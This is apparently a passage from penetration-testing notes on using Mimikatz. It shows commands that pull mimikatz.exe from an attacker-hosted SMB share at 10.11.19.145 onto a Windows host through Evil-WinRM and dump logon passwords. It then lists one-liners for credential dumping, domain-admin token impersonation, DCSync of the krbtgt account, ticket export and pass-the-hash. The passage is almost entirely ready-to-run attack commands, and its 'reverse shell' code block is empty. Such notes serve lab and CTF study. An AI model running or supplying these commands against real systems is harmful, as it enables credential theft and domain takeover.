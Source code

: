 ```bash

┌──(kali㉿kali)-[/tmp/www]
└─$ smbserver.py s . -smb2support
```

**Execute**

> **Notice**
> - Note the command format for windows binary!
> - Remeber to add `exit` on the end of the cmd, otherwise revshell will freeze because of its interactive command prompt
{: .prompt-tip }

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> copy \\10.11.19.145\s\mimikatz.exe .\mimi.exe
*Evil-WinRM* PS C:\Users\Administrator\Documents> .\mimi.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

**Execute in interactive reverse shell**

```bash

```


### Cheat Sheets

> https://cheats.philkeeble.com/active-directory/mimikatz
> https://tools.thehacker.recipes/mimikatz/modules
> https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```bash

# One Liner
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"'


# Impersonate domian Admin
Invoke-Mimikatz -Command "token::elevate /domainadmin"


# DCsync
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate /domainadmin" "lsadump::dcsync /user:krbtgt" "exit"'


# Extract Tickets
Invoke-Mimikatz -Command "sekurlsa::tickets /export"


# Pass The Hash
Invoke-Mimikatz -Command "sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell"
```
